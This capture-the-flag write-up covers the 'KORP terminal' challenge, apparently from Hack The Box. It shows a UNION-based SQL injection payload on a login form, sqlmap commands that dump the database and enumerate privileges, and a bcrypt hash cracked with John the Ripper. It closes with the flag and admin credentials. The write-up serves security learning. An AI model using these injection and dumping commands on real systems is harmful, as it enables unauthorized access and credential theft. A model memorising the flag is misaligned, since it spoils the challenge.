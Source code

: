## Title

KORP terminal

## Description

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Solution

In this challenge we only receive a login page.
It seems like it is SQL injection. However, when performing SQL injection in the user we get the following error:
`Use multi=True when executing multiple statements`.


What is strange is that it only has one column and asks for two parameters.
We know that because when we try to do a SQLi with UNION and using the NULL's to find the right amount of columns we get one.

`username=' UNION SELECT NULL -- &password=admin`

However we get the following error:

`"'NoneType' object has no attribute 'encode'"`

Meaning NULL is not the data type, changing NULL to a string("") we get the error:

`"Invalid salt"`

It seems like the username should be encrypted with the salt before we send it.
We don't know the salt.

using sqlmap we can dump the user password:

`sqlmap -r web/korp_terminal/request -p username -level 5 -risk 3 --ignore-code 401 --dbs -D korp_terminal --columns --dump`

```
1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin 
```


Enumerating the privileges of our user we only have USAGE privilege:

`sqlmap -r request -p username -level 5 -risk 3 --ignore-code 401 --dbs --privileges --roles --batch`

```
[*] 'lean'@'localhost' [1]:
    role: USAGE
```


I have used john the ripper with rockyou.txt to crack the hash:

```
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:18 DONE (2024-03-11 12:02) 0.05488g/s 77.05p/s 77.05c/s 77.05C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

After login we get the flag: `HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`
Username: admin, Password: password123